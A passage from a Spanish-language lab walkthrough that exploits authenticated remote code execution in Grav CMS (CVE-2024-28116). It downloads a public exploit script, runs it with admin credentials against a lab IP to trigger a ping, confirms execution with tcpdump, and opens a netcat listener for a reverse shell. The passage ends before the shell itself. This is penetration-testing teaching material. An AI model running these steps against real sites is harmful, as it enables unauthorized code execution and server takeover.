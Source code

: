 Este Exploit es similar, pero automatiza el proceso de cambiar el comando a ejecutar desde el mismo Exploit.

A diferencia del otro Exploit, aquí tenemos que darle el usuario, la contraseña y el comando a ejecutar mediante flags. Además, elimina automáticamente la página creada, por lo que solo se ejecuta el comando y no se guarda el payload.

Aquí lo puedes encontrar:
* <a href="https://github.com/gunzf0x/Grav-CMS-RCE-Authenticated" target="_blank">Repositorio de gunzf0z: Grav CMS Remote Code Execution (Authenticated) - CVE-2024-28116</a>

Puedes descargar solo el Exploit con **wget**:
```bash
wget https://raw.githubusercontent.com/gunzf0x/Grav-CMS-RCE-Authenticated/refs/heads/main/Grav_CMS_RCE.py
```
En el repo, nos muestra un ejemplo de cómo manda una **traza ICMP** a una IP, así que repliquémoslo.

Inicia una captura de **paquetes ICMP** con **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Ejecuta el mismo comando, mandando la traza a tu IP:
```bash
python3 Grav_CMS_RCE.py -t 192.168.100.10 -u 'admin' -p 'Perico69*****' -x 'ping -c 1 Tu_IP'
[*] Attacking 'http://192.168.100.10:80'...
[*] Uploading payload...
[*] Executing payload...
[*] Payload deleted. Actually, what payload? Nothing happened here ;) 

    ~Happy hacking
```

Observa **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
13:33:05.219172 IP Tu_IP > 192.168.100.10: ICMP echo request, id 11, seq 0, length 64
13:33:05.219781 IP 192.168.100.10 > Tu_IP: ICMP echo reply, id 11, seq 0, length 64
...
^C
6 packets captured
6 packets received by filter
0 packets dropped by kernel
```
Funciona muy bien. Entonces, vamos a mandarnos una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```
